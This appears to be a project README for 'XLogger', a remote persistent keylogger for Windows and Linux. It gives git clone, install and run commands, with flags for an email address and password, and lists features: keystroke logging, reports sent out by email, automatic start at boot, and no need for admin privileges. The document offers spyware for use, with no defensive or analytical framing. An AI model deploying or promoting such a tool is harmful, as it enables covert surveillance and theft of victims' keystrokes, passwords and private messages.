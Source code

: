# XLogger
Remote persistent keylogger for Windows and Linux.


## Commands :

### Download
git clone https://github.com/XPR1M3/XLogger.git

### Installation
chmod +x install.sh

./install.sh

### Usage
python xlogger.py

![alt text](https://i.imgur.com/WcHem3T.jpg)

#### For Windows
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]

#### For Linux 
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]


### Features:

- Logs keys pressed on keyboard.
- Sends reports by email.
- Starts with system startup.
- Works with Linux and Windows.
- Does not require root or admin privileges.


